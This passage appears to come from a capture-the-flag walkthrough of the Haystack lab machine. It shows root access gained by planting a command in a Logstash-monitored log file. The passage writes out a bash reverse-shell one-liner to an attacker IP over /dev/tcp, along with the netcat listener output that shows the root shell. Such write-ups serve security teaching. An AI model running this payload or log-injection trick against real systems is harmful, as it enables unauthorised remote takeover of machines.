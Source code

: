 ![](/img/1561907681441.png)

Knowing that the output will execute whatever is passed in as `comando`,
I will update my input to give a reverse shell:



     Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'



### Shell

I'll drop that log into a log file in the right directory:



    bash-4.2$ echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'"
    Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'

    bash-4.2$ echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" > /opt/kibana/logstash_0xdf



After a few seconds:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.115.
    Ncat: Connection from 10.10.10.115:40238.
    bash: no hay control de trabajos en este shell
    [root@haystack /]# id
    id
    uid=0(root) gid=0(root) grupos=0(root) contexto=system_u:system_r:unconfined_service_t:s0
